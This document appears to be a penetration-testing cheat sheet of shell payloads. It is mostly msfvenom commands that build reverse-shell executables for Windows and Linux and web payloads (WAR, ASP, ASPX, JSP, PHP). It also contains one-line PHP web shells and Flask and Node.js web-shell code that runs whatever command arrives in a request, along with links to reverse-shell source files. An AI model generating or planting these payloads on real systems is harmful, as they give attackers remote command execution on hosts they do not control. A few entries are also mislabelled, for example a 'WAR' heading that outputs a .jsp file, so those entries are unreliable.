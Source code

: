 # Shell and Some Payloads
## Payload Structure - msfvenom
-> A staged payload is usually shipped in two parts. The first part contains a small primary payload that will establish a connection, transferring a larger secondary payload with the rest of the shellcode.
-> e.g.  
```
windows/shell_reverse_tcp (stageless)
windows/shell/reverse_tcp (staged)
linux/shell_reverse_tcp (stageless)
linux/shell/reverse_tcp (staged)
```

## Non-Meterpreter Binaries
### Windows
#### .exe x86 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### .exe x86 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

#### .exe x64 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

### Linux
#### .elf x86 staged - msfvenom (Non-Meterpreter)
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 staged - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### .elf x86 stageless - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

#### .elf x64 stageless - msfvenom (Non-Meterpreter)
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## Web Payloads
### Java WAR - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### ASP - msfvenom (Non-Meterpreter)
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### ASPX
```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f aspx > shell.aspx
```

### JSP - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR - msfvenom (Non-Meterpreter)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### PHP - msfvenom (Non-Meterpreter)
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
or  
-> Find and edit
```
locate php-reverse-shell
```
or  
https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php

## Web Shells
### PHP 
```
<?php echo shell_exec($_GET['cmd']);?>
<?php system($_GET['cmd']);?>
<?php echo exec($_GET['cmd']);?>
```

### JSP
-> Find and edit
```
locate jsp-reverse.jsp
```

### Perl
-> Find and edit
```
locate perl-reverse-shell.pl
```
### Webshell Infecting views.py - Python (Flask)
```
import os
from flask import Flask,request,os

app = Flask(__name__)
   
@app.route('/okay')
def cmd():
    return os.system(request.args.get('c'))

if __name__ == "__main__":
	app.run()
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.py

### nodejs
```
const express = require('express')
const app = express();

app.listen(3000, () => 
	console.log('...')
);
function Exec(command){ 
	const { execSync } = require("child_process");
	const stdout = execSync(command);
	return "Result: "+stdout
}
app.get('/okay/:command', (req, res) => 
res.send(Exec(req.params.command))
);
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.js

https://www.revshells.com/

## Web Shells

https://www.urlencoder.org/

